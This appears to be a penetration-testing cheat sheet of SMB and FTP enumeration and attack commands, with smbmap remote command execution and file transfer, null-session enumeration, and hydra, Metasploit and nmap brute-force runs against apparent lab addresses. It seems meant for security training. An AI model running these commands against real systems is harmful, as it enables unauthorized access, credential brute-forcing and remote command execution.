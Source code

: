- `smbmap -u <user> -p "<password>" -d . -H 10.12.26.14` -- used to connect 
	- if SMB v1 use `-u guest -p ""`
- `smbmap -u <user> -p "<password>" -d . -H 10.12.26.14 -x 'ipconfig' ` -- to run a cmd
- `smbmap -u <user> -p "<password>" -d . -H 10.12.26.14 -r C$` -- to give output as DIR
- `smbmap -u <user> -p "<password>" -d . -H 10.12.26.14 --upload '/path/to/file' '/path/to/upload'` -- to upload the file
- `smbmap -u <user> -p "<password>" -d . -H 10.12.26.14 --download '/path/to/file'` -- to upload the file
- `smbmap -u <USERNAME> -p "<PASSWORD>" -H 192.146.243.3` -- give which share is read only

- `nmap -T4 -p445 --script smb-os-discovery 10.12.23.4` -- discover the host os
- using msfconsole
	> msfconsole 
	> use auxiliary/scanner/smb/smb_version 
	> set RHOSTS 192.126.66.3 
	> exploit 

- `smbclient -L 10.12.23.4 -N` -- to check if null session
- `smbcient -L 10.12.23.4 -U <USERNAME/SHARENAME>` -- to check if share is browsable
- `smbclient //10.12.23.4/<SHARE NAME> -N` -- connect to client having no password
- `smbclient //10.12.23.4/<SHARE NAME> -U <USERNAME>` -- connect to client 
- `rpcclient -U "" -N 10.12.23.3` -- to connect to null session
- `enum4linux -o 10.12.23.4` -- to give OS info 
- `enum4linux -S 10.12.23.4` -- to give shares info 
- `enum4linux -G 10.12.23.4` -- to give groups info 
- `enum4linux -a 10.12.23.4` -- to give info 
- `enum4linux -r -u "<USERNAME>" -p "<PASSWORD>" 192.212.251.3` -- to give SID

- When connect via rpcclient
	- `enumdomusers` -- give list of users
	- `enumdomgroups` -- give groups
	- `lookupnames <name>` -- give SID
	- `srvinfo` -- to give server info 

- `hydra -l <USERNAME> -P /path/to/password/file 10.12.23.4 <protocol> `  -- to brute force to get login details
- using msfconsole 
	>msfconsole 
	>use auxiliary/scanner/smb/smb_login 
	>set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt 
	>set SMBUser jane 
	>set RHOSTS 192.212.251.3 
	>exploit

- name pipes using msfconsole
	> msfconsole 
	> use auxiliary/scanner/smb/pipe_auditor 
	> set SMBUser admin 
	> set SMBPass password1 
	> set RHOSTS 192.212.251.3 
	> exploit

###### FTP Lesson
- `hydra -l <USERNAME or /path/to/user.txt> -P /path/to/password/file 10.12.23.4 <protocol> -t 4`  -- to brute force to get login details
- `nmap 10.12.23.4 --script ftp-brute --script-args userdb=/path/to/users.txt/file -p 21` -- to brute force to get login details 
- `nmap 10.12.23.4 -p 21 --script ftp-anon`
